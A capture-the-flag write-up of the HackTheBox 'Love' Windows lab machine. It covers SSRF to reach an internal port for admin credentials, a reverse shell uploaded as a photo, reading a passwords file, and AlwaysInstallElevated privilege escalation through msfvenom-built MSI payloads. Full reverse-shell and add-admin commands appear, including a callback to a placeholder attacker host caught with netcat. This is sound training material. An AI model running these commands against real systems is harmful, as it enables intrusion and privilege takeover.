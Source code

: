 ```yaml
---
layout: post
title:  "HackTheBox {Love}"
categories: [writeup]
tags: [Windows, SSRF, AlwaysInstallElevated]
year: 2022
description: Easy Windows Machine
---
```



## Index

- [Recon](#recon)
- [User](#user)
- [Root](#root)
- [References](#references)

<br>

## Recon 

### nmap

- Doing `sudo nmap -sC -sV -oN nmap/initial 10.10.10.239 -v` I've found many open TCP ports

```bash
Discovered open port 139/tcp on 10.10.10.239
Discovered open port 443/tcp on 10.10.10.239
445/tcp microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
80/tcp Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
Discovered open port 135/tcp on 10.10.10.239
3306/tcp mysql?
5000/tcp  www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```


- Using `smbmap` and `smbclient` I was not able to get in port 445

```bash
smbmap -H 10.10.10.239 -u brun0 -p brun0
[!] Authentication error on 10.10.10.239

smbclient -N -L //10.10.10.239
session setup failed: NT_STATUS_ACCESS_DENIED
```

- Moving into port 3306, got nothing again ...

```bash
mysql -h 10.10.10.239
ERROR 1130 (HY000): Host '10.10.14.6' is not allowed to connect to this MariaDB server
```


- Found `staging.love.htb/organizationName=ValentineCorp/` in nmap scan. So I edited `/etc/hosts` and navigated to http://staging.love.htb

![image](https://user-images.githubusercontent.com/12052283/127888286-773176b1-af4e-489a-8fb1-1a0f23e63aa0.png)

### gobuster

- I like to have recon always going in the background so I started gobuster and found some cool locations

![image](https://user-images.githubusercontent.com/12052283/127886977-ba4f12c2-82ff-4b80-9a12-99f6da03adf0.png)

## User

- First I saw `http://love.htb/admin` but I needed creds to login so I decided to jump to `http://stating.love.htb` 
- Pressing in `demo` got to a free file scanner so I tried SSRF. 
- I tried `http://localhost` but I got nothing ... so After a while I decided to use `http://localhost:5000` and boom , got creds for `http://love.htb/admin/`. 
- I used port 5000 because in nmap is saying `403 forbiden` so I assumed I could SSRF so the server thinks the requests is being made internaly.

![image](https://user-images.githubusercontent.com/12052283/127890660-ab17ab40-2028-454c-aae3-a4929d700f79.png)

- After login in into `http://love.htb/admin` I played a little bit to understand how the web application works.
- Basically it's a simple voting system and therefore I could create a new voter. This voter has a Firstname, Lastname, Password and, the juicy one, a photo.
- I created a user and uploaded a rev shell in the photo field.

![image](https://user-images.githubusercontent.com/12052283/127893881-931eb776-eba2-4ad5-80c8-f14d822ecefa.png)

- Next I logged in while I was listening on port `9999` and got a shell as `phoebe`

![image](https://user-images.githubusercontent.com/12052283/127894210-a990a6fc-4c02-45dd-9d2b-cf3797809e3c.png)

- Got creds in `C:\xampp\passwords.txt` and at the same time got user flag in `C:\Users\Phoebe\Desktop\user.txt`

![image](https://user-images.githubusercontent.com/12052283/127894537-270d6781-2e21-4893-b1bf-121686f7323c.png)

## Root

- Since it was a windows machine I uploaded [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and found [AlwaysInstallElevated](https://docs.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) ON

- Googled a little bit and found that if AlwaysInstallElevated is ON its possible that any user of any privilege can install (execute) `.msi` files as `NT AUTHORITY\SYSTEM`

- So I double checked that AlwaysInstallElevated was On using the following commands and they both returned `1`.

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- Next step was to priv esc so I had two options
    - I could create a metasploit payload using `msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi` and then execute that `alwe.msi` on the windows machine and user `rottenadmin` become `NT AUTHORITY\SYSTEM`
    - Or I could create a reverse shell using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_IP LPORT=MY_LISTENING_PORT -f msi -o reverse.msi`, upload `reverse.msi` to the windows machine, start listening on my local machine using `sudo nc -lvnp MY_LISTENING_PORT` and then, inside the windows machine, run `msiexec /quiet /qn /i reverse.msi` to trigger the reverse shell.

- I decided to use the second approach and after those steps I got root

 ![image](https://user-images.githubusercontent.com/12052283/127909554-97ebbdfc-8d22-46b3-9689-dfe9b2f07923.png)

## References

- [https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)
- [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
- [https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated](https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated)